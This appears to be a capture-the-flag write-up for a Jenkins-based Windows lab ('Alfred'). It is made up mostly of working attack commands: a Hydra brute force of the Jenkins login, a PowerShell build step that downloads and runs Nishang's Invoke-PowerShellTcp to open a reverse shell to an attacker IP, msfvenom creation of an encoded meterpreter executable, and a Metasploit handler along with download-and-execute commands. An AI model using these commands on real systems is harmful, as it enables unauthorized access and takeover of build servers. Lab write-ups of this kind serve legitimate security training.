

# Alfred

## Tools

***[Nishang](https://github.com/samratashok/nishang)*** is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.  

***[Hydra](https://github.com/vanhauser-thc/thc-hydra)***

## Initial Access

[Jenkins Documentation](https://www.jenkins.io/doc/book/installing/initial-settings/#networking-parameters) indicates the default port is 8080.  

Shellhacks provide a quick understanding of [Jenkins Default Credentials](https://www.shellhacks.com/jenkins-default-password-username/). Since this instance is already running and the default username ('admin') is already known, it makes sense to attempt a brute force the login.  

`:> hydra -s 8080 -l admin -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.65.187.121 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&pSubmit=Sign+in:Invalid username or password' -f -o /tmp/jenkins_login.txt`  

Hydra identifies the .  

## Nishang

Clone nishang into the /tmp folder `:> git clone https://github.com/samratashok/nishang.git`  

  

Read through the scripts in the Shells folder to identify Invoke-PoweShellTcp.ps1 is used for reverse and bind shells.  

Check the challenge instructions to find the command will be something like: `:> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444`

Set up a server in /tmp/nishang/Shells, enabling the transfer of this script to the Jenkins enviornment: `:> python3 -m http.server 9000`

Set up a listener to receive the incoming reverse shell: `:> nc -lvnp 8000`

  

## Exploit Jenkins

Jenkins has an existing project. Click on "Configure" and move to the build tasks and observe the existing `whoami` command.  

  

Add a  build step that will "Execute a Windows Batch Command" with a powershell command which will download and execute `Invoke-PowerShellTcp.ps1`.  

`:> powershell iex (New-Object Net.WebClient).DownloadString('http://10.65.79.140:9000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.65.79.140 -Port 8000`  

Click "Save" to return to the project and click "Build Now" to initaite the pipeline and Receive the reverse shell.  

Open the Build that is currently executing. Find the "Console Output" to observe the steps executed during the build.  

Since `whoami` tells us where to look, we can search through that user to find the target file.  

## Privilege Escalation

***Create the Payload***

As in the instruction, create the malicious payload using msfvenom on the attacking device:  

`:> msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.67.123.179 LPORT=4444 -f exe -o robin.exe`  

It can be put in the nishang/Shells folder since that folder is already serving.  

***Prepare to receive the shell***

Start metasploit framework: `:>msfconsole`

`:> use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST=10.67.123.179 set LPORT=4444 run  `

***Transfer the Payload***

Stop the build current running. Stop the reverse shell previously established, and modify the project configuration.  

The command looks like: 
`:> powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`

`:> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.65.79.140:9000/robin.exe','robin.exe')"`

  

Restart listener to receive the incoming reverse shell: `:> nc -lvnp 8000`  

When the build runs, the file is transferred and can be found in the workspace.  

  

Show the privileges of the reverse shell file.  

`:> get-acl robin.exe`  

  

***Run the payload*** 

`:> Start-Process robin.exe`